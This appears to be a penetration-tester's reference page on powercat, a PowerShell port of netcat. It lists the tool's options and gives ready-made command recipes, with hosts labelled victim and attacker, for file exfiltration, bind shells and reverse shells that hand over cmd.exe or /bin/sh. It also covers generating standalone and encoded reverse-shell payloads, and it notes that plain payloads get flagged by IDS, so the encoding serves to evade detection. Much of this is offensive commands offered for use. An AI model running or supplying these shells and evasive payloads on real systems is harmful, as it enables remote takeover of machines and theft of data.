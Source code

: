 

[Powershell](OS%20Commands.md#PowerShell) version of [netcat](Tools.md#netcat). Script can be downloaded to Windows host that leverages the strength of PowerShell while simplifying creation of bind/ reverse bind shells.  
  
  
Installation of [powercat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)
```bash
apt install powercat
```
	on Linux adds the script to _/usr/share/windows-resources/powercat_  
  

**-c** _ip_ - Client connection to given _ip_  
**-d** - Disconnect  
**-e** _process_ - Execute given process  
**-ep** - Start a pseudo powershell session. Can declare variables and execute commands, but if you try to enter a new shell (nslookup, netsh, cmd, etc), it'll hang.  
**-i** - Provide data to be sent down the pipe as soon as a connection is established. Used for moving files. You can provide the path to a file, a byte array object, or a string.  
You can also pipe any of those into powercat:
```bash
'aaaaaa' | powercat -c 10.1.1.1 -p 80
```

**-g** - Generate payload. Returns a script as a string which will execute the powercat w/ the options specified. (**-i**, **-d**, and **-rep** won't be incorporated)  
**-ge** - Generate encoded payload. Same as **-g**, but returns string which can be executed with
```powershell
powershell -E <encoded string>
```
 
**-l** - Listen mode  
**-of** - Output file  
**-p** _port_ - Specify _port_  
**-r** _string_ - Relay network traffic between two nodes  
Client Relay Format:
```bash
-r <protocol>:<ip>:<port>
```

Client Listener Format:
```bash
-r <protocol>:<port>
```
 
DNSCat2 Format:
```bash
-r dns:<dns server>:<dns port>:<domain>
```
  
**-rep** - Repeater. Powercat will automatically restart once disconnected. Used for setting up a persistent server  
**-h** - Help  
  
  
###### File Transfer
to: 
```bash
sudo nc -lvnp 443 > <received_file.ps1>
```

from:  
```powershell
. .\powercat.ps1  
powercat -c <ip> -p 443 -i C:\Users\<path_to_file.ps1>
```  
	Note: There's no indication that the file transferred  



###### Bind Shell:
  
Linux = Victim; Win = Attacker  
```bash
nc -nlvp 443 -e /bin/sh
```
```powershell
powercat -c <ip> -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -l -p 443 -e cmd.exe
```
```bash
nc <ip> 443
```
  

  
###### Reverse Shell:  
  
Linux = Victim; Win = Attacker  
```bash
nc <ip> 443 -e /bin/sh
```
```powershell
powercat -l -p 443
```


Win = Victim; Linux = Attacker  
```powershell
powercat -c <ip> -p 443 -e cmd.exe
```
```bash
nc -nlvp 443
```

  
  
###### Payloads:  
Set of powershell instructions as well as the portion of the powercat script itself that only includes the features requested by the user.  
  
```powershell
powercat -c <ip> -p 443 -e cmd.exe -g > reverseshell.ps1
```

Note: Stand-alone payloads like this one might be easily detected by IDS.  
Specifically, the script that is generated is rather large with roughly 300 lines of code and contains a number of hardcoded strings that can easily be used in signatures for malicious activity.  
Plaintext malicious code such as this will likely have a poor success rate and will likely be caught by defensive software solutions.  
  
  
###### Encrypted Payloads: 
```powershell
powercat -c <ip> -p 443 -e cmd.exe -ge > encryptedreverse.ps1
```

Run script w/  
```powershell
powershell -E (Get-Content 'myscript.ps1' -Raw)
```